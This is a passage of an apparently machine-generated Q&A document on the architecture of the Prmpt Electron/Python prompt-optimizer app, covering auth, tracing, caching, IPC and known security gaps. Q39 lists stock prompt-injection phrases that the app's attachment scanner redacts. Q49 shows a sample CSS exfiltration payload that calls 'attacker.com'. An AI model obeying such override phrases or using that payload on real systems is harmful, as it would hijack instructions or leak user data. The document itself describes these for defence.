The initial schema (migration 001) created a standalone `users` table. This conflicted with Supabase Auth's `auth.users` table, which is the authoritative source of user identity. Migration 002 dropped `public.users CASCADE` and replaced it with `profiles` that references `auth.users(id)` as a foreign key. This means user creation is handled by Supabase Auth (signup → `auth.users` INSERT → `handle_new_user` trigger → `profiles` INSERT), and the app never directly manages authentication state in its own tables. The cascade ensures that deleting a user from `auth.users` (via the deletion edge function) automatically removes all dependent data. This is the recommended Supabase pattern — extend `auth.users` with a `profiles` table rather than duplicating user management.

### Q25: How does the app prevent the overlay from being captured in screenshots?

The overlay window is set to `alwaysOnTop: true, 'screen-saver'` — this is the highest z-order level available in Electron, placing it above screenshot tools and screen-capture UIs. However, this doesn't prevent screen recording software from capturing it. The overlay uses a transparent background (`backgroundColor: '#00000000'`) and `hasShadow: false` to minimize its visual footprint. There is no explicit `setContentProtection(true)` call (which would make the window appear black in screenshots), likely because users may want to screenshot their optimized prompts. The current approach prioritizes usability (always visible, always on top) over security (preventing capture).

### Q26: What is the Sentry trace propagation flow across the three runtimes?

Sentry distributed tracing works as follows: (1) In the Electron main process, when `optimizeStream()` is called, it extracts the active Sentry span using `getActiveSpan()`, serializes it to `sentry-trace` header format via `spanToTraceHeader()`, and includes it in the WebSocket message payload. (2) In the Python service, the WebSocket handler checks for `sentry_trace` in the incoming message and calls `sentry_sdk.continue_trace()` to create a child transaction linked to the Electron parent. (3) The React renderer has its own Sentry instance (`@sentry/react`) with browser tracing integration, but it doesn't directly propagate traces to the main process — the IPC layer is not instrumented with Sentry spans. This means Electron→Python traces are linked, but Renderer→Electron traces are not. Adding IPC span instrumentation would complete the trace chain but would add overhead to every IPC call (~70 channels × many calls per second).

### Q27: How does the prompt cache work and when is it bypassed?

The Python service uses a `cachetools.TTLCache(maxsize=200, ttl=300)` — a dictionary with 200-entry capacity and 5-minute TTL. The cache key is the prompt text (after stripping). On a cache hit, the cached optimization is returned immediately without calling the LLM. The cache is bypassed in two scenarios: (1) `skip_cache=True` in the request (used for regeneration), which also appends a `[REGENERATE_{microsecond_timestamp}]` tag to ensure the prompt text differs from the cached key, and (2) WebSocket streaming requests, which always run the full pipeline. The cache is only used by the HTTP `POST /optimize` endpoint, which is a legacy non-streaming path. The primary streaming path via WebSocket has no caching because the response is streamed in real-time — caching would defeat the purpose of streaming.

### Q28: Why does the system use `HashRouter` instead of `BrowserRouter`?

Electron loads HTML from the `file://` protocol (`loadFile(htmlPath)`). `BrowserRouter` uses the History API's `pushState`, which requires a web server to handle route paths — when you navigate to `/settings`, the browser requests `file:///path/to/app/settings`, which doesn't exist as a file. `HashRouter` uses the URL hash (`#/settings`), which never causes a server request — the browser handles it entirely client-side. This is the standard choice for Electron apps, hybrid mobile apps (Cordova/Capacitor), and static site deployments without server-side routing. The tradeoff is aesthetics — `#/settings` is uglier than `/settings` — but since users never see the URL bar in an Electron app, it doesn't matter.

### Q29: How does the `compact_with_summary` context management prevent information loss?

When `ChatContext.token_estimate()` exceeds 3000 tokens, the `summarize_context()` function sends the full conversation to the `SUMMARIZER_MODEL` with `system_prompt_summarizer.md`, which instructs it to produce a compact JSON summary. `compact_with_summary()` then replaces all messages except the 4 most recent with a single system message containing `[CONVERSATION SUMMARY — N earlier messages compressed]`. The `to_text()` method is aware of summary blocks — it always includes them first, then appends recent messages. This means the LLM always sees: (1) a compressed summary of early context, (2) the 4 most recent messages for immediate context. Information loss is inevitable with summarization, but the design preserves the most recent and most relevant context. The 4-message keepalive ensures the LLM can see the user's latest refinements. Compare this to ChatGPT's approach, which has a fixed context window and silently drops old messages — Prmpt's summarization is more explicit and preserves more context per token.

### Q30: How does the deletion request system implement GDPR's right to erasure?

The system implements a 30-day grace period pattern: (1) User requests deletion → INSERT into `deletion_requests` with `status='pending'` and `scheduled_deletion_at = NOW() + 30 days`. (2) User can cancel within 30 days → UPDATE `status='cancelled'`. (3) The `process-deletions` edge function runs on a daily cron, finds requests where `scheduled_deletion_at <= NOW()`, calls `auth.admin.deleteUser()` which CASCADE deletes all data (profiles → chats → messages → optimizations → prompts → memories → settings), then marks the request `completed`. The 30-day grace period is GDPR-compliant — the regulation requires "without undue delay" but allows reasonable processing time, especially when the user is informed of the timeline. The edge function runs with the service role key, which is the only credential that can delete `auth.users` rows. User-facing code never has access to this key.

### Q31: Why does the system use `message_role` and `optimization_source` as PostgreSQL enums instead of text?

Enums provide two benefits: storage efficiency (stored as integers internally, ~4 bytes vs variable-length text) and data integrity (INSERT with an invalid role like 'moderator' fails at the database level rather than propagating bad data). The tradeoff is migration friction — adding a new enum value requires an `ALTER TYPE ... ADD VALUE` migration. For `message_role` ('user', 'assistant', 'system'), the set is stable and unlikely to change. For `optimization_source` ('overlay', 'app_window', 'api'), it might need extension (e.g., 'cli', 'browser_extension'). In practice, enum migration is a one-line SQL statement, so the integrity benefit outweighs the friction. Slack uses a similar pattern for message types. Firebase/Firestore, by contrast, uses strings everywhere because it has no schema enforcement — the validation happens in application code.

### Q32: How does the `PythonClient.connectWithRetry` accommodate Render.com cold starts?

Render's free tier spins down the service after 15 minutes of inactivity. Cold starts take 30-50 seconds as the container restarts, installs dependencies, and loads models. `connectWithRetry` uses an exponential backoff with steps [2s, 4s, 8s, 15s, 20s] and a total elapsed cap of 90 seconds. This means after a cold start, the first connection attempt fails, the client waits 2s and retries, fails again, waits 4s, etc. Typically by the 3rd-4th attempt (~14s elapsed), the service is ready. The 90s cap ensures the client doesn't hang indefinitely. Additionally, `connect()` is called at app startup (before the user sends any message) to pre-warm the connection. The `startup_event` in the Python service runs `_background_warmup()` which loads the pipeline and sends a 1-token warmup request to OpenRouter, ensuring the HTTPS connection pool is established. This aggressive pre-warming means the user rarely encounters a cold start delay — only if the app is launched after a prolonged period of the Python service being idle.

### Q33: How does the app's two-window architecture handle shared state (settings, auth)?

The two windows do not share React state — they are completely independent React trees. Shared state is synchronized through the main process acting as a mediator. When settings change in the main app, the main process sends `overlay:settings-update` to the overlay window. When auth state changes, the main process calls `overlayManager.sendAuthState(isAuthenticated)`. The `authState` object in the main process is the single source of truth — both windows query it via IPC (`overlay:check-auth`, `auth:check`). This is the Actor Model pattern — each window is an actor that receives messages, and the main process is the message broker. The alternative (shared state via localStorage or IndexedDB) would require both windows to poll for changes, which is less efficient and has timing issues.

### Q34: Why does the app use `contextBridge.exposeInMainWorld` instead of `nodeIntegration: true`?

`nodeIntegration: true` gives the renderer process full access to Node.js APIs (fs, child_process, etc.). A single XSS vulnerability in the renderer would allow an attacker to read/write the filesystem, execute arbitrary commands, and exfiltrate data. `contextBridge` creates a controlled API surface — the renderer can only call the specific functions exposed in the preload script. The preload script acts as a security gateway, validating inputs and controlling what IPC channels are accessible. This is defense-in-depth: even if an attacker injects JavaScript into the renderer (via a malicious prompt rendering, a markdown XSS, or a compromised dependency), they can only call the exposed IPC methods — they cannot access the filesystem, spawn processes, or read environment variables. Electron's security documentation considers `nodeIntegration: true` a critical vulnerability and recommends `contextBridge` for all production apps.

### Q35: How does the system handle conflicting migration file naming?

The migration files have two naming conventions: sequential (`001_`, `002_`, `003_`) and timestamped (`20260315_`, `20260322_`, etc.). There are two `002_` and two `003_` files, which is a problem because Supabase CLI applies migrations in lexicographic order. For example, `002_add_profiles_and_preferences.sql` drops the `users` table, but `002_fix_user_rls.sql` adds a policy to `users`. If the fix migration runs after the drop, it would fail. In practice, this worked because the migrations were applied in development order (fix first, then profiles). But it's fragile — a clean database migration from scratch could fail. The fix would be to rename the sequential migrations to timestamps or to consolidate the two `002_` files. For production deployments, the Supabase migration history table tracks which migrations have been applied, so this is primarily a risk for new development environments.

### Q36: What is the WebSocket message protocol between Electron and Python?

The protocol uses JSON messages with a `type` field for message routing:

**Client → Server**: `{request_id, prompt, messages, mode, custom_instructions, attached_files, forced_skill, previous_output, sentry_trace, baggage, user_id}`

**Server → Client (streaming)**: `{type: 'chunk', request_id, content, accumulated}` — sent for each LLM token delta

**Server → Client (completion)**: `{type: 'complete', request_id, optimized, original, models_used}` — sent once when streaming finishes

**Server → Client (error)**: `{type: 'error', request_id, message}` — sent when processing fails

**Client → Server (abort)**: `{type: 'abort', request_id}` — best-effort signal to stop generation

The `accumulated` field in chunk messages is a deliberate redundancy — the client could compute it by concatenating chunks, but including it in each message allows the client to recover from missed chunks (e.g., if a WebSocket frame is dropped). The `request_id` enables multiplexing — multiple requests can be in-flight on the same WebSocket, though in practice only one stream is active at a time.

### Q37: How does the skill file system work, and how are skills loaded at runtime?

Skill files are Markdown documents stored in `files/skill_*.md` at the project root. In the Python pipeline, `skills.py:load_skill_file()` reads these files with `@lru_cache(maxsize=16)` caching. In the Electron main process, `skill-handlers.ts:registerSkillHandlers()` provides a `skills:list` IPC handler that reads all `skill_*.md` files from the `files/` directory, parses their frontmatter-style metadata (name, description, keywords), and returns a list of `SkillInfo` objects. The renderer displays these in the `SkillPicker` component. When the user selects a skill, its name is passed as `forced_skill` to the Python service, which loads the corresponding file and includes its content in the system prompt. The skill files contain domain-specific instructions — e.g., `skill_coding.md` includes instructions for technical prompt optimization, `skill_email.md` for professional communication. The system is extensible: adding a new skill is just creating a new `skill_*.md` file.

### Q38: Why does `useSmoothStreaming` use `useRef` instead of `useState` for the buffer?

The streaming buffer (`streamBuffer`, `visualText`) updates many times per second — potentially 30+ times during active streaming. If these were `useState`, each update would trigger a React re-render of the component tree, causing significant CPU overhead and potential UI jank. `useRef` provides a mutable container that doesn't trigger re-renders when updated. The component only re-renders when `setStreamingMessage()` is called (the `useState` that holds the visible message), which happens at the controlled 30fps rate. This is a common pattern in React for high-frequency data — animation state, mouse position tracking, and WebSocket buffers should always be refs, not state. The tradeoff is that the buffer values are not visible in React DevTools and cannot be used in JSX expressions — only the derived `streamingMessage` state appears in the component tree.

### Q39: How does the system prevent prompt injection via file attachments?

The `document_parser.py` module implements multiple defense layers. First, only PDF and image files are accepted (MIME whitelist + magic byte validation). Second, extracted text is scanned for known prompt injection patterns: "ignore all previous instructions", "system:", `<|im_start|>`, `<|im_end|>`, "disregard all prior" — these are replaced with `[REDACTED]`. Third, extracted text is capped at 8000 tokens (~32,000 characters), preventing a large document from consuming the context window and crowding out the system prompt. Fourth, file context is wrapped in `[ATTACHED CONTEXT]...[END ATTACHED CONTEXT]` delimiters, giving the LLM a clear boundary between user content and injected content. These are defense-in-depth measures — no single layer is foolproof (LLMs can be creative with injection), but the combination makes injection significantly harder. The OpenAI and Anthropic safety teams recommend exactly this layered approach.

### Q40: What is the `_optimize_semaphore` and why is it needed?

The `_optimize_semaphore = asyncio.Semaphore(50)` limits the number of concurrent optimization tasks. Without it, a burst of WebSocket requests could spawn unlimited threads via `run_in_executor()`, exhausting the thread pool and causing all requests to timeout. The semaphore ensures at most 50 optimization tasks run simultaneously. The 51st request blocks on `async with _optimize_semaphore` until a slot opens. This provides backpressure — the WebSocket remains connected (so the client knows it's waiting), but the expensive LLM call is deferred. The default of 50 is configurable via `MAX_CONCURRENT_OPTIMIZATIONS` environment variable. For Render's free tier with 512MB RAM, the practical limit is much lower (~5-10 concurrent streams before OOM). The semaphore value should be tuned based on available memory and thread pool size.

### Q41: How does the overlay's cursor polling work for the glow effect?

The overlay has a radial gradient glow effect that follows the mouse cursor. This is driven by two mechanisms: (1) In-browser `mousemove` events via `document.addEventListener('mousemove', ...)` in the overlay's `OverlayApp` component. (2) IPC-based cursor position updates via `overlay.onCursorPos` for when the cursor is near but not over the overlay window. The `startCursorPolling` function in `overlay-ipc-handlers.ts` uses `screen.getCursorScreenPoint()` on a timer to track cursor position even outside the overlay bounds. The position is converted to overlay-relative coordinates and sent via IPC. The glow effect uses `radial-gradient(circle 200px at X% Y%, ...)` CSS applied directly to a wrapper element's `style.background`. A 1.5-second timeout resets the glow when the cursor stops moving. This creates a subtle interactive feel similar to macOS's hover effects on buttons and panels.

### Q42: How does the `MemoryAnalyzer` avoid blocking the main response flow?

`MemoryAnalyzer.analyzeAndStore()` is called as a fire-and-forget `Promise` — the calling code (in `chat-handlers.ts`) does `analyzer.analyzeAndStore(rawPrompt, optimizedText, skill).catch(...)` without `await`. This means the function runs in the background while the main response has already been sent to the renderer. Internally, it calls `pythonClient.extractMemoryFacts()` (HTTP, not WebSocket, with a 15-second timeout) and then `memoryService.upsert()` for each extracted fact. If extraction fails (network error, Python crash, invalid JSON response), it catches the error and returns silently — the user never sees a memory extraction failure. After successful extraction, it sends `memory:updated` IPC to the renderer so the memory view can refresh. The fire-and-forget pattern is critical for perceived performance — the user gets their optimized prompt immediately, and memory extraction happens in the background.

### Q43: How does `electron-updater` handle partial downloads and interrupted installs?

`electron-updater` downloads update files to a temporary directory and verifies their integrity via SHA checksum before installation. If a download is interrupted (network drop, app quit), the partial file is discarded on the next check and the download restarts from scratch — there's no resume capability. The `autoUpdater.autoDownload = true` setting means downloads happen silently in the background. `autoInstallOnAppQuit = true` means the update is applied on the next restart. The `update:install` IPC handler calls `autoUpdater.quitAndInstall(false, true)` — the first argument (`isSilent=false`) shows the installer UI, and the second (`forceRunAfter=true`) restarts the app after installation. If the update fails (corrupt download, installer crash), the existing version remains intact — electron-updater's default behavior is to skip failed updates and retry on the next check cycle.

### Q44: Why does the `TranscriptionClient` buffer audio chunks before the WebSocket opens?

The `MediaRecorder` in the preload script starts capturing audio immediately and sends chunks every 250ms via IPC. But the `TranscriptionClient.startSession()` needs to open a WebSocket to the Python service and send a `{action: 'start'}` message before audio can be forwarded. This handshake takes ~50-200ms. Without buffering, the first 1-2 audio chunks (250-500ms of speech) would be lost. The `pendingChunks` array accumulates incoming chunks while `sessionReady` is false. Once the WebSocket opens and the start message is sent, all buffered chunks are flushed in order, and subsequent chunks are forwarded directly. This ensures zero audio data loss during the connection setup phase. The same pattern is used in WebRTC applications (ICE candidates buffered before peer connection is established) and message queue consumers (messages buffered during broker reconnection).

### Q45: How does the application handle deep links on Windows vs macOS?

Deep links (`prmpt://share/c/{token}` or `prmpt://share/p/{token}`) follow different OS paths. On Windows/Linux, the URL arrives as a command-line argument on second-instance launch — the `second-instance` event provides `commandLine` array. On macOS, the `open-url` event fires directly. The app registers `prmpt` as a custom protocol via `app.setAsDefaultProtocolClient('prmpt')`. The `handleDeepLink()` function validates the URL: checks protocol (`prmpt:`), hostname (`share`), path format (`/<type>/<token>`), type whitelist (`c` or `p`), and token format (20-50 base64url characters). Invalid or malformed URLs are silently discarded — they never crash the startup flow. The validated route path is sent to the renderer via `navigate-to-share` IPC, which triggers React Router navigation to the share page. This is identical to how Slack handles deep links (`slack://channel/...`) — custom protocol registration + URL validation + in-app routing.

### Q46: What is the `clean_optimized_text` function and why is it necessary?

LLMs frequently wrap their output in formatting artifacts that aren't part of the optimized prompt: markdown code fences (` ```...``` `), meta-text ("Here is the optimized prompt:"), and surrounding quotes. `clean_optimized_text()` strips these artifacts using regex for code fences and a priority list of known prefix patterns. It also strips leading/trailing quotes. Without this cleaning, the user would receive a prompt wrapped in ` ``` ` markers or prefixed with "Here is the optimized version:" — which would confuse any downstream LLM that receives the "optimized" prompt. The function is applied both in the HTTP endpoint and after WebSocket streaming completes. The `_extract_optimized_prompt()` function in `optimizer.py` provides a second layer: it attempts to extract content from the `**OPTIMIZED PROMPT**` section marker that the system prompt instructs the LLM to use. These two cleaning functions handle different failure modes: `_extract_optimized_prompt` handles structural output, `clean_optimized_text` handles formatting artifacts.

### Q47: How does the system manage environment variables across dev and packaged modes?

Environment variable loading follows a two-path strategy. In development, `dotenv.config()` in `index-new.ts` loads `.env` from the project root. In the packaged app, `.env.packaged` is copied to `process.resourcesPath/.env` by electron-builder's `extraResources` configuration. The code checks `fs.existsSync(devEnvPath)` to determine which path to use. The Python service has its own loading: `python-service/app/main.py` loads `.env` from two levels up (`Path(__file__).parent.parent.parent / '.env'`). Environment variables include: `SUPABASE_URL`, `SUPABASE_ANON_KEY`, `SUPABASE_JWT_SECRET`, `PYTHON_SERVICE_URL` (localhost in dev, Render URL in production), `OPENROUTER_API_KEY`, `SENTRY_DSN`, `SENTRY_PYTHON_DSN`, `DEEPGRAM_API_KEY`, `CLOUDINARY_*`. The packaged version excludes development-only variables and uses production endpoints. This is the standard Electron pattern — 12-factor app principles applied to desktop software.

### Q48: How does the message tree support conversation branching?

The `useMessageTree` hook implements a tree data structure where each message can have multiple children (branches). When a user edits a message, instead of overwriting the original, a new branch is created. The tree tracks `groupId` (which group of messages the branch belongs to) and `versionIndex` (which version within the group). `getActivePath()` traverses the tree from root to leaf following the currently selected branch at each fork point. `navigate(messageId, versionIndex)` switches the active branch at a fork point. `getVersionInfo(messageId)` returns `{current, total}` for the version navigator UI ("Version 2 of 3"). This is conceptually similar to Git's branching model — each edit is a new branch, and the user can navigate between branches. ChatGPT implements a similar feature (edit → new branch) but with a simpler UI. Prmpt's version navigator shows all versions inline with Previous/Next navigation.

### Q49: What are the known security gaps in the current architecture?

Several areas could be hardened: (1) **No code signing**: `forceCodeSigning: false` means Windows SmartScreen warns on install. Code signing with an EV certificate would fix this. (2) **Service role key in edge functions**: The `process-deletions` function accepts the service role key as Bearer token, but anyone who obtains this key can trigger user deletions. A more robust approach would use a separate secret with narrower scope. (3) **In-memory rate limits**: The Python service's daily rate limit is an in-memory dict that resets on restart. A motivated user could force a restart (by sending malformed requests that crash the service) and bypass the limit. Redis-backed limits would survive restarts. (4) **No CORS on WebSocket**: WebSocket connections don't enforce CORS — any page that knows the Python service URL and has a valid JWT could connect. The JWT requirement provides some protection, but origin verification would add defense-in-depth. (5) **Style CSP `unsafe-inline`**: Allows injection of arbitrary CSS, which could be used for CSS-based data exfiltration (e.g., `background: url(attacker.com/exfil?data=...)` applied conditionally).

### Q50: If you were redesigning Prmpt from scratch today, what would you change?

Several architectural decisions would change with hindsight: (1) **State management**: Use Zustand with typed IPC middleware instead of raw useState + refs. This would eliminate the ref-mirroring pattern and make state changes predictable and debuggable. (2) **Type-safe IPC**: Use a shared schema (like tRPC's approach) for IPC channels — define the channel name, request type, and response type in one place that both the preload and handlers import. This would catch contract mismatches at compile time. (3) **Database schema**: Start with timestamped migration names from day one. Use integer counters for message statistics instead of COUNT(*) triggers. Add composite indexes from the start. (4) **Python service**: Deploy on a platform without cold starts (Railway, Fly.io with always-on) or implement a keep-alive pinger. Consider WebSocket connection pooling for the optimizer. (5) **Testing**: Add E2E tests with Playwright for Electron (both windows), API integration tests for the Python service, and snapshot tests for the preload bridge contract. The current codebase has minimal test coverage (one example test file). (6) **Monitoring**: Add structured logging with correlation IDs that flow from renderer → main process → Python → Supabase, enabling full request tracing across all runtimes. The current Sentry trace propagation only covers Electron→Python.

---

*This document was generated from a deep analysis of the Prmpt codebase at commit HEAD on the `dashboard` branch. All code references, file paths, and architectural descriptions reflect the actual implementation as of the generation date.*

